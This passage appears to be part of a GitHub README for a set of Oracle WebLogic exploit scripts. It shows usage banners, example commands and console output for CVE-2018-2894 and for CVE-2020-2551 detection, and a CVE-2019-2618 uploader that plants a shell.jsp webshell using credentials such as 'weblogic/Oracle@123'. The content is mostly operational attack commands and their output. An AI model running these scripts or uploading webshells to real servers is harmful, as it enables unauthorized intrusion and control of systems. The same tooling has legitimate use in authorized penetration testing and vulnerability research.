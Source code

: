 > [+] http://1.1.1.1:7001 exists CVE-2018-2894
> [+] Check URL: http://1.1.1.1:7001/ws_utc/css/config/keystore/1585895893159_360sglab.jsp 
> ```

## cve-2019-2618_webshell.py Weblogic 任意文件上传漏洞 (需要账户密码)
> USE:
> ```
> zhzy@debian:$ python cve-2019-2618_webshell.py 
> +-----------------------------------------------------------------------+
> + VER: Oracle WebLogic Server 10.3.6.0                                  +
> +      Oracle WebLogic Server 12.1.3.0                                  +
> +      Oracle WebLogic Server 12.2.1.3                                  +
> + USE: python cve-2019-2618_webshell.py <username> <password>           +
> + EXP: python cve-2019-2618.py http://1.1.1.1:7001 weblogic Oracle@123  +
> +-----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2019-2618_webshell.py http://1.1.1.1:7007/ weblogic Oracle@123
> 
> ========================================================================
>    _______      ________    ___   ___  __  ___       ___   __ __  ___  
>   / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \     |__ \ / //_ |/ _ \ 
>  | |     \ \  / /| |__ ______ ) | | | || | (_) |______ ) / /_ | | (_) |
>  | |      \ \/ / |  __|______/ /| | | || |\__, |______/ / '_ \| |> _ < 
>  | |____   \  /  | |____    / /_| |_| || |  / /      / /| (_) | | (_) |
>   \_____|   \/   |______|  |____|\___/ |_| /_/      |____\___/|_|\___/ 
>                                                                        
>       Weblogic Upload Vuln(Need  username password)-CVE-2019-2618
>                               By Jas502n     
> ========================================================================
> >>>>Upload Shell Addresss: 
> http://1.1.1.1:7007/bea_wls_internal/shell.jsp
> ```

## cve-2020-2551_poc.py Weblogic IIOP 反序列化漏洞检测脚本
> USE:
> ```
> zhzy@debian:$ python3 cve-2020-2551_poc.py -u http://1.1.1.1:7001
> +---------------------------------------------------   -----+
> + USE: python cve-2020-2551_poc.py <url:port>               +
> + VER: 10.3.6.0.0                                           +
> +      12.1.3.0.0                                           +
> +      12.2.1.3.0                                           +
> +      12.2.1.4.0                                           +
> + EXP: python3 cve-2020-2551_poc.py -u http://1.1.1.1:7001  +
> +-----------------------------------------------------------+
> [+] found CVE-2020-2551  1.1.1.1:7007
> ```


